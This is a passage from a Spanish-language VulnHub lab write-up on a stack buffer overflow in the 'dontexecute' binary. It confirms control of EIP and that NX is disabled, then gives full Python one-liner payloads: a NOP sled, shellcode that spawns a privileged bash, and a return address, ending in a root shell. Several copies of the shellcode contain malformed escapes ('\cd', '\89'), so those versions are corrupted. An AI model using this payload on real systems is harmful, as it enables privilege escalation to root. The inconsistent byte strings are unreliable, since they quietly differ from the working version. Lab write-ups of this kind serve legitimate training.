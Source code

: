 ![](/assets/images/vulnhub-writeup-buffemr/Pasted image 20231115124231.png)

Como vemos el EIP vale lo qué indicamos nosotros, por ende ya tenemos el control en el EIP.

Sí ahora vemos protecciones del ejecutable.

![](/assets/images/vulnhub-writeup-buffemr/Pasted image 20231115124417.png)

Vemos qué el "**NX**" está desactivado, permitiéndonos así interpretar cualquier tipo de shellcode qué le metamos, en este caso usaremos un shellcode para que nos de una bash con privilegios


Ahora nos vamos a la máquina víctima, y ejecutamos con "gdb" el ejecutable.
```bash
gdb -q /opt/dontexecute
```

1. Ejecutamos el ejecutable con el shellcode.
```bash
r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "B"*4')
```


Indicamos al EIP que apunte a los OP's de NullCode, para que interprete el ShellCode.
```bash
r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\cd\x80" + "\x70\xd6\xff\xff"')
```



Vemos que nos ejecutó el ShellCode, pero esto lo haría en el mismo "gdb" y a nosotros nos interesaría afuera del gdb, por ende salimos.

y ejecutamos el binario así:
```bash
./dontexecute $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```


![](/assets/images/vulnhub-writeup-buffemr/Pasted image 20231115131759.png)

Y estaríamos como Root.
